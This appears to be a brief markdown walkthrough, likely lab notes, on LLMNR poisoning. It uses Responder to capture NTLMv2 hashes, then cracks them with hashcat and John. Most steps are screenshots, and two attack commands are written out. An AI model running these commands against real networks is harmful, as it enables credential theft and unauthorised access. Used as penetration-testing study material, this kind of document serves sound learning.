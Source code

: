 ## LLMNR Poisoning - Capturing NTLMv2 Hashes

$ ifconfig

![llmnr-capture-ntlmv2hash-1](https://github.com/user-attachments/assets/bb5bc126-3932-4d78-bf94-5bdab72f4557)


$ sudo responder -I eth0
![llmnr-capture-ntlmv2hash-2](https://github.com/user-attachments/assets/73eaf2a2-3ceb-4bfb-9e29-abcc2e1235d6)

![llmnr-capture-ntlmv2hash-3](https://github.com/user-attachments/assets/5301373a-0bf0-49e8-9830-d2a52a858acc)


## Trigger an LLMNR Event

![llmnr-capture-ntlmv2hash-4](https://github.com/user-attachments/assets/a75c11b5-bbb6-4470-a9db-da04be7a9f5a)


## Dumping NTLMv2 Hashes
![llmnr-capture-ntlmv2hash-5](https://github.com/user-attachments/assets/d26280ff-4be6-4117-aca5-c3ab9b35f163)


## Save Hash to a file
![llmnr-capture-ntlmv2hash-6](https://github.com/user-attachments/assets/212944c3-ccbc-4aab-aa8f-bd30558ed49f)


## Use Hashcat to crack the hash 

$ hashcat -m 5600 hashes.txt /usr/share/wordlists/rockyou.txt

![llmnr-capture-ntlmv2hash-7](https://github.com/user-attachments/assets/b686e734-88df-42f8-902f-05836a141529)

## Use John to crack the hash 

![llmnr-capture-ntlmv2hash-8](https://github.com/user-attachments/assets/022ef5f9-a64a-4fec-936f-b5a041849694)
